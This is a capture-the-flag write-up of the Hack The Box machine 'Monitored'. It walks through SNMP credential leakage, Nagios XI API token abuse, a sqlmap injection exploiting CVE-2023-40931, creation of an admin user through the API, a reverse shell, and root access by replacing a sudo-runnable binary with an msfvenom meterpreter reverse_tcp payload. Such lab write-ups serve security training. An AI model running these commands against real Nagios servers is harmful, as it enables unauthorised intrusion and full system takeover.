<h1 align="center"> Monitored </h1>

<p align="center">
    <a href="https://app.hackthebox.com/machines/583">
        
    </a>
</p>

## Table of Contents

1. [Service Enumeration](#1-recon)
2. [SNMP](#2-snmp)
3. [Service analysis on TCP/80](#3-tcp---80)
4. [CVE-2023-40931](#4-cve-2023-40931)
5. [Privilege Escalation](#5-user-to-root)
6. [Pwned Info](#pwned-info)

## 1. Recon

```bash
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.248
Nmap scan report for 10.10.11.248
Host is up (0.12s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 61:e2:e7:b4:1b:5d:46:dc:3b:2f:91:38:e6:6d:c5:ff (RSA)
|   256 29:73:c5:a5:8d:aa:3f:60:a9:4a:a3:e5:9f:67:5c:93 (ECDSA)
|_  256 6d:7a:f9:eb:8e:45:c2:02:6a:d5:8d:4d:b3:a3:37:6f (ED25519)
80/tcp  open  http     Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.56 ((Debian))
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Not valid before: 2023-11-11T21:46:55
|_Not valid after:  2297-08-25T21:46:55
|_http-title: Nagios XI
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.56 (Debian)
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar  5 15:52:53 2024 -- 1 IP address (1 host up) scanned in 30.74 seconds
```

```bash
└─$ sudo nmap -sU 10.10.11.248
Nmap scan report for 10.10.11.248
Host is up (0.16s latency).
Not shown: 996 closed udp ports (port-unreach)
PORT    STATE         SERVICE
68/udp  open|filtered dhcpc
123/udp open          ntp
161/udp open          snmp
162/udp open|filtered snmptrap

Nmap done: 1 IP address (1 host up) scanned in 1159.80 seconds
```

## 2. SNMP

In UDP there is [SNMP](https://it.wikipedia.org/wiki/Simple_Network_Management_Protocol) service, so I used [snmpbulkwalk](https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp#enumerating-snmp) to search for valid strings.

```bash
└─$ snmpbulkwalk -v 2c -c public monitored.htb    
[...SNIPPET...]
iso.3.6.1.2.1.25.4.2.1.5.563 = STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB "
iso.3.6.1.2.1.25.4.2.1.5.1425 = STRING: "-u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"
iso.3.6.1.2.1.25.4.2.1.5.1426 = STRING: "-c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"
[...SNIPPET...]
```

In the output, it is interesting to observe possible credentials.

## 3. TCP - 80

There is an active service on port 80 and, as you can see from the nmap output, it redirects us to *https://nagios.monitored.htb/*, so before connecting, we add, in `/etc/hosts`, *monitored.htb* and *nagios.monitored.htb*.

<p align="center">
  
</p>

After clicking the button, it redirects us to a login page.

<p align="center">
  
</p>

Trying to use the credentials obtained from the SNMP service, we receive the result that the login token has expired.

<p align="center">
  
</p>

Not having much information I launched [ffuf](https://github.com/ffuf/ffuf) to search for additional endpoints.

```bash
└─$ ffuf -u "https://nagios.monitored.htb/nagiosxi/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -r


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://nagios.monitored.htb/nagiosxi/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

help                    [Status: 200, Size: 26749, Words: 5495, Lines: 468, Duration: 294ms]
tools                   [Status: 200, Size: 26751, Words: 5495, Lines: 468, Duration: 169ms]
admin                   [Status: 200, Size: 26751, Words: 5495, Lines: 468, Duration: 163ms]
mobile                  [Status: 200, Size: 15978, Words: 2562, Lines: 225, Duration: 175ms]
reports                 [Status: 200, Size: 26755, Words: 5495, Lines: 468, Duration: 164ms]
account                 [Status: 200, Size: 26755, Words: 5495, Lines: 468, Duration: 166ms]
includes                [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 126ms]
backend                 [Status: 200, Size: 108, Words: 4, Lines: 5, Duration: 175ms]
db                      [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 128ms]
api                     [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 126ms]
config                  [Status: 200, Size: 26753, Words: 5495, Lines: 468, Duration: 168ms]
views                   [Status: 200, Size: 26751, Words: 5495, Lines: 468, Duration: 168ms]
sounds                  [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 215ms]
terminal                [Status: 200, Size: 5215, Words: 1247, Lines: 124, Duration: 175ms]
```

Seeing that there are bees present, I started looking for information about it, with particular reference to authentication and I found a [topic](https://support.nagios.com/forum/viewtopic.php?f=16&t=58783) on *support.nagios.com* where is shown the command to execute to have a valid **auth token**.

```bash
└─$ curl -XPOST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d "username=svc&password=XjH7VCehowpR1xZB" -k
{"username":"svc","user_id":"2","auth_token":"9ee9028a008e7984124dbf55a5342e0dc9242a5e","valid_min":5,"valid_until":"Tue, 05 Mar 2024 10:33:43 -0500"}
```

Having the token, I looked for a way to use it to login and I found a [FAQ](https://www.nagios.org/ncpa/help/2.0/api.html) on *nagios.org* where it mentions the token parameter to insert in the URL, which in our case will be as follows:

`https://nagios.monitored.htb/nagiosxi/login.php?token=9ee9028a008e7984124dbf55a5342e0dc9242a5e`

Unfortunately, after logging in, nothing could be used.

## 4. CVE-2023-40931

At this point I started looking for exploits for nagiosxi, when I found [CVE-2023-40931](https://nvd.nist.gov/vuln/detail/CVE-2023-40931). This CVE targets the */nagiosxi/admin/banner_message-ajaxhelper.php* endpoint using the parameters *action* and *id*, appropriately set, to perform a SQLInjection.

`sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?id=3&action=acknowledge_banner_message" --cookie "nagiosxi=6v0u1hph21hdrpsjgbej48qlcc" --dbms=MySQL -p id --dump`

<p align="center">
  
</p>


As you can see from the screenshot above, we obtain the *api_key* of the admin. After doing some research on how to use all the information found so far, I found a [topic](https://support.nagios.com/forum/viewtopic.php?t=42923) (on *support.nagios .com*) which reports the command to run to add a user with elevated privileges.

```bash
└─$ curl -X POST -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=asd&password=asd&name=asd&email=asd@localhost&auth_level=admin"
{
    "success": "User account asd was added successfully!",
    "user_id": 6
}
```

After adding the user, we login.

<p align="center">
  
</p>

Among the various options, we find a very interesting one in `Configure > Core Config Manager`.

<p align="center">
  
</p>

On the page you notice that commands can be added, so I add the command for the reverse shell.

<p align="center">
  
</p>

As reported on the page, to execute the newly added command you need to find the way to execute *check_example* and I find it in *Service Management* (`Core Config Manager > Services`).

<p align="center">
  
</p>

Then by pressing the *Run Check Command* button, having a listener on the indicated port, we receive the shell.

<p align="center">
  
</p>

We can have a better shell with the following command:

- python3 -c 'import pty; pty.spawn("/bin/bash")'
- CTRL + Z
- stty raw -echo; fg
- export TERM=xterm

In the home directory there is the user flag.

## 5. User to ROOT

To escalate, we start by running the *sudo -l* command.

```bash
nagios@monitored:~$ sudo -l
sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```

After analyzing the various files, the one that most piqued my interest was *manage_services*.

<p align="center">
  
</p>

The first lines show examples of use and then what are the possible commands and services that can be used. So I set out to find a binary that can be replaced, finding it in */usr/local/nagios/bin/nagios*.

```bash
nagios@monitored:~$ ls -al /usr/local/nagios/bin/nagios
ls -al /usr/local/nagios/bin/nagios
-rwxrwxr-- 1 nagios nagios 717648 Nov  9 10:40 /usr/local/nagios/bin/nagios
```

Then I use [msfvenom](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom) to create an elf which, when run, creates a reverse shell.

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=1234 -f elf -o nagios`

We then restart nagios, after running msfconsole and therefore we have a shell.

<p align="center">
  
</p>

In */root* there is the root flag.

## Pwned Info

<p align="center">
    <a href="https://www.hackthebox.com/achievement/machine/805273/583">
        
    </a>
</p>

